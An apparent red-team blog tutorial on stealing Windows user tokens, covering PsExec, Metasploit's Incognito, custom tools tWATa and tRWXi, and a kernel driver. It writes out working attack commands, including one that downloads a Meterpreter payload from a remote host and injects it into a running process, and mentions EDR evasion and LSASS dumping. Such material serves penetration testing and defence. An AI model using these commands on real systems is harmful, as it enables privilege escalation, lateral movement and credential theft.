







At Least 5 Ways to Steal a Windows User Token:
From Userland to Kernel
A practical walkthrough of token-impersonation and token-theft techniques — from the well-known PsExec shortcut to custom kernel-level exploitation.
Introduction
There are multiple techniques that can allow an attacker to steal a user token on a Windows client. In an Active Directory (AD) environment we are primarily interested in the tokens of domain users, because a stolen domain token can enable lateral movement to other machines in the same forest or domain.
On standalone Windows workstations the
NT AUTHORITY\SYSTEM account is the most attractive target as it grants nearly
unrestricted local access, which can be though restricted by local security tools such as EDR.
In this article I review some of these techniques, ranging from the trivially simple PsExec one-liner all the way to a fully custom Windows kernel driver that steals tokens entirely from Kernel.
01 — PsExec from Sysinternals
We start with the lowest-hanging fruit: PsExec, a lightweight utility PsExec has been used for decades by system administrators for remote process execution, but it is equally useful for privilege escalation.
It is important to understand why escalating from a local administrator to SYSTEM is often necessary, even though an administrator account already carries significant privileges. Certain operations — such as fully leveraging Mimikatz to dump LSASS credentials, accessing protected registry hives, or interacting with kernel-level security drivers — require a SYSTEM token rather than a merely elevated administrator token.
Prerequisites: Local administrator privileges.
Source: Microsoft Sysinternals suite
Usage
PsExec.exe -s -i cmd.exeWhere:
-s— Runs the specified process under theNT AUTHORITY\SYSTEMaccount by creating a temporary Windows service.-i— Runs the process interactively on the current desktop session, so the spawned window is visible to the logged-in user.
![Two terminal windows: the upper window shows a PowerShell session running as 'dev' with administrator privileges and the whoami /priv output listing SeDebugPrivilege, SeChangeNotifyPrivilege, SeImpersonatePrivilege, and SeCreateGlobalPrivilege as enabled. The lower window shows a cmd.exe session spawned by PsExec running as NT AUTHORITY\SYSTEM with a significantly expanded privilege set, including SeTcbPrivilege, SeLoadDriverPrivilege, SeBackupPrivilege, and SeDelegateSessionUserImpersonatePrivilege, demonstrating successful privilege escalation.](./img/01-psexec-1.png)
PsExec.exe -s -i cmd.exe, the lower pane reveals a new
cmd.exe process running as NT AUTHORITY\SYSTEM.
Unfortunately, most endpoint-detection solutions heavily signature PsExec, which can result in its execution being blocked or the binary being tagged as malware. This is why it is important to get familiar with alternative techniques in order to be prepared for such scenarios.
02 — Metasploit's Incognito Module
The Incognito module provides a fast and convenient way to list and impersonate Windows tokens from within an existing Meterpreter session.
Despite being over a decade old, the technique remains effective. Windows Defender and many third-party antivirus products do not block token impersonation performed via utilized legitimate Win32 API calls, which allow bypassing its detection.
Prerequisites: An active Meterpreter session running with local administrator privileges.
Source: incognito.c
Usage
meterpreter > load incognito
meterpreter > list_tokens -u
meterpreter > impersonate_token "NT AUTHORITY\SYSTEM"- Load the extension into the current Meterpreter session with
load incognito. - Run
list_tokens -uto enumerate all tokens accessible from the current process context. Output is separated into Delegation and Impersonation categories. - Call
impersonate_tokenwith the target account name. Metasploit will search the token list for a matching entry and callImpersonateLoggedOnUseron the duplicated handle. - Verify the result with
getuid, which should now returnNT AUTHORITY\SYSTEM.

DESKTOP-00EQ2TL\dev user context. After loading the extension
and listing available tokens, both a user delegation token and a SYSTEM
delegation token are visible. The
impersonate_token "NT AUTHORITY\\SYSTEM" command successfully
impersonates the SYSTEM token, confirmed by getuid returning
NT AUTHORITY\SYSTEM.
03 — tWATa — Windows Token Theft
tWATa (Windows Access Token abuser) is a custom, standalone implementation of the token-impersonation logic found in Incognito.
tWATa adds the following capabilities:
- Enumeration mode (
--enumerate) — lists all processes and their associated tokens, grouped by integrity level and token type, giving the operator a clear overview of available targets. - Targeted stealing (
--pid <PID>) — allows the operator to explicitly specify the source process ID from which the token should be stolen. - Flexible target process (
--cmd <cmd>) — the operator can specify which new process to spawn under the stolen token (defaults tocmd.exewhen no argument is provided).
Prerequisites: Local administrator privileges to access processes running at HIGH or SYSTEM integrity levels.
Source: tWATa.sln
Usage
# Enumerate available tokens
.\tWATa.exe --enumerate
# Steal the token from PID 444 and spawn cmd.exe
.\tWATa.exe --pid 444
# Steal the token from PID 444 and inject it into the Meterpreter session
.\tWATa.exe --pid 444 --cmd "C:\Windows\Temp\met443.exe"
--enumerate). The tool lists all accessible process tokens,
grouped by account. By default — when no cmd argument is provided — tWATa will spawn a new cmd.exe process.


NT AUTHORITY\SYSTEM
04 — tRWXi — Token Theft via Payload Injection into RWX Regions
This technique moves beyond token duplication and instead achieves impersonation by injecting a shellcode payload directly into an existing process that is already running in the another user's context.
More on this technique in my research article: Exploiting RWX Memory Regions
Usage
- Scan all running processes with RWX memory regions.
- Write the shellcode payload into the discovered RWX region.
- Redirect execution to the shellcode by creating a remote thread pointing at the written payload.
Prerequisites: Local administrator privileges in order to see processes beyond the MEDIUM integrity level.
Source: tRWXi.sln
Usage
.\tRWXi.exe /inject /pid=14272 /address=0x1C15F0000 /url=http://192.168.116.129:80/met443.num /execute

getuid confirms the session context is
NT AUTHORITY\SYSTEM, and getpid returns 14272 —
the same process ID targeted for injection.
A very similar approach can be achieved by abusing threads in external processes.
Thread hijacking allows you to modify the EIP or RIP register (based on whether the architecture is x86 or x64 respectively) and detour it to a memory region containing the prepared payload.
Source: THi.sln
05 — tKMD — Token Theft via Kernel Exploitation
All of the techniques discussed so far operate entirely in RING 3 and rely on Windows API functions from userland. A custom Windows kernel driver on the other side operates inside the Windows kernel itself.
While tKMD uses a purpose-built test-signed driver, the same technique can be applied in real-world red-team engagements via Bring Your Own Vulnerable Driver (BYOVD).
Prerequisites: The ability to load a kernel driver on the target system or abuse an available vulnerable driver in place.
Source: tKMD.sln
Usage

Disclaimer: The techniques described in this article are powerful tools for legitimate security research and penetration testing. Always ensure that you have explicit, written authorisation from the system owner before deploying any of these techniques against a target.